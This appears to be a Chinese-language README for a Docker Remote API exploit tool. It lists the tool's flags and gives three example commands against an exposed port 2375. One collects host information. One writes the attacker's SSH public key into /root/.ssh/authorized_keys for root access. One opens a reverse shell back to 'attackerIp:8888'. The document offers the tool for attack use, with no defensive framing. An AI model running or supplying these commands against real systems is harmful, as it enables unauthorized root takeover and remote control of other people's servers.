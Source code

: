 ## Docker remote api exp
### 参数说明
$ ./docker_remote_api_exp 
Usage of ./docker_remote_api_exp:
  -pubkey string
    	id_rsa.pub file (default "/home/hartnett/.ssh/id_rsa.pub")
  -reverse string
    	reverse address, 6.6.6.6:8888
  -target string
    	target ip, 1.1.1.1:2375
  -type string
    	Type, such as check, root, shell (default "check")
  -version string
    	Docker version:
	---------------------------
	Docker version	API Version
	---------------------------
	1.12.x		1.24
	1.11.x		1.23
	1.10.x		1.22
	1.9.x		1.21
	1.8.x		1.20
	1.7.x		1.19
	1.6.x		1.18

 (default "1.12")

1. remote_api_exp -type=check -target=ip:2375，获取服务器信息，如操作系统，机器名，remote api版本以及docker的安装位置等
1. ./remote_api_exp -type=root -target=ip:2375 -version=1.12.3，在/root/.ssh/authorized_keys写入攻击者的ssh公钥
1. ./remote_api_exp -type=shell -target=ip:2375 -version=1.12.3 -reverse=attackerIp:8888，给攻击者反弹一个shell
